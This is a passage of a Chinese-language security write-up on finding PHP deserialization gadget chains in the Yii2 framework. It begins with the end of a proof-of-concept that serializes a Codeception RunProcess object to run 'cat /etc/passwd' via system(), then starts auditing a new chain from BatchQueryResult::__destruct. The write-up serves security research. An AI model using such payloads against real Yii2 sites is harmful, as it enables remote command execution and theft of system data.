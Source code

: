 ```php
        private $processes = [] ;
        function __construct($command,$argv)
        {
            $this->processes[] = new ValidGenerator($command,$argv);
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;
    $exp = new RunProcess('system','cat /etc/passwd');
    echo(base64_encode(serialize($exp)));
    exit();
}
```

在这里我们会发现一个问题，就是基本上都用到了 Faker 的这个 namespace 下的类，但是在 yii2 的核心框架不含任何拓展的情况下这个命名空间的相关文件是没有的。所以基本上网上的 poc 全部都失效了。这边就需要我们自己去挖掘一条 yii2 的反序列化链。去 GitHub 上下载了对应的 yii2 的版本，由于没发现标签是 yii2.0.13-dev 的这个版本，所以就下载了 yii2.0.13 的最新的一个版本。

![01.png](assets/1700187068-f3c8028e56f81c29cd529129cad5687a.png)

#### 反序列化链的审计

老规矩，在没有后续操作下的反序列化的可利用的起始魔术方法基本上是\_\_destruct，yii2 也很简单明了，也就只有一个类含有\_\_destruct

![02.png](assets/1700187068-9df0e3b5c2e15f67023c79f1c81d2993.png)  
在 BatchQueryResult 类中的\_\_destruct 作为反序列化的起点，这个也和网上大多数的链子的起点一样。往下走，可以看到\_\_destruct 中调用了 reset，而 reset 函数中则出现了反序列化中很喜欢遇到的一个写法。
